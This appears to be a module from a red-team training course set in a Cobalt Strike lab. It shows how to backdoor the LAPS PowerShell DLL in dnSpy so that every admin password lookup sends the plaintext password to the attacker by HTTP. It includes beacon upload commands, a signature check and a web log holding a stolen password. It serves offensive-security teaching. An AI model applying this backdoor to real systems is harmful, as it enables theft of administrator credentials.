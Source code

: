 There are some techniques that we can leverage to backdoor the LAPS administrative tooling and obtain a copy of passwords when viewed by an admin.  This module will demonstrate this idea using the LAPS PowerShell cmdlet `Get-AdmPwdPassword`.  If installed on a machine, the LAPS PowerShell modules can be found under `C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS`.
```
beacon> ls
[*] Listing: C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/16/2022 13:04:13   en-US
 24kb     fil     05/05/2021 12:04:14   AdmPwd.PS.dll
 5kb      fil     04/28/2021 18:56:38   AdmPwd.PS.format.ps1xml
 4kb      fil     04/28/2021 18:56:38   AdmPwd.PS.psd1
 26kb     fil     05/05/2021 12:04:14   AdmPwd.Utils.dll
```
  

Since PowerShell heavily utilises the .NET Framework, the DLLs here are written in C# which makes them fairly trivial to download, modify and re-upload.  Download `AdmPwd.PS.dll` and `AdmPwd.Utils.dll`, sync them to your attacking machine and open AdmPwd.PS.dll with dnSpy.  Use the Assembly Explorer to drill down into the DLL, namespaces and classes until you find the `GetPassword` method.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/388/e3f/f67/dnspy.png)

  

This method calls `DirectoryUtils.GetPasswordInfo` which returns a `PasswordInfo` object.  You can click on the name and dnSpy will take you to the class definition.  It contains properties for `ComputerName`, `DistinguishedName`, `Password` and `ExpirationTimestamp`.  The password is simply the plaintext password that is shown to the admin.

Let's modify the code to send the plaintext passwords to us over an HTTP GET request.

  **OPSEC**  
  
This is obviously an irresponsible method to use in the real world, because the plaintext password is being sent unencrypted over the wire.  This is just an example.

  

Go back to the GetPassword method, right-click somewhere in the main window and select _Edit Method_.  The first thing we need to do is add a new assembly reference, using the little button at the bottom of the edit window.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/e6e/92f/535/add-reference.png)

  

Use the search box to find and add `System.Net`.

This code will simply instantiate a new `WebClient` and call the `DownloadString` method, passing the computer name and password in the URI.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/497/f24/92f/backdoor.png)

  

Once the modifications are in place, click the _Compile_ button in the bottom-right of the edit window.  Then select _File > Save Module_ to write the changes to disk.  Upload the DLL back to the target to overwrite the existing file.
```
beacon> upload C:\Users\Attacker\Desktop\AdmPwd.PS.dll
```
  

One downside to this tactic is that it will break the digital signature of the DLL, but it will not prevent PowerShell from using it.
```
beacon> powershell Get-AuthenticodeSignature *.dll

    Directory: C:\Windows\System32\WindowsPowerShell\v1.0\Modules\AdmPwd.PS

SignerCertificate                         Status                                 Path                                  
-----------------                         ------                                 ----                                  
                                          NotSigned                              AdmPwd.PS.dll                         
ABDCA79AF9DD48A0EA702AD45260B3C03093FB4B  Valid                                  AdmPwd.Utils.dll 

  

As nlamb on Workstation 1, grab the LAPS password for a computer.

PS C:\Users\nlamb> Get-AdmPwdPassword -ComputerName sql-2 | fl

ComputerName        : SQL-2
DistinguishedName   : CN=SQL-2,OU=SQL Servers,OU=Servers,DC=dev,DC=cyberbotic,DC=io
Password            : VloWch1sc5Hl40
ExpirationTimestamp : 9/17/2022 12:46:28 PM
```
  

You should see a corresponding hit in your CS weblog.
```
09/14 11:49:32 visit (port 80) from: 10.10.122.254
	Request: GET /
	Response: 404 Not Found
	null
	= Form Data=
	computer   = SQL-2
	pass       = VloWch1sc5Hl40
```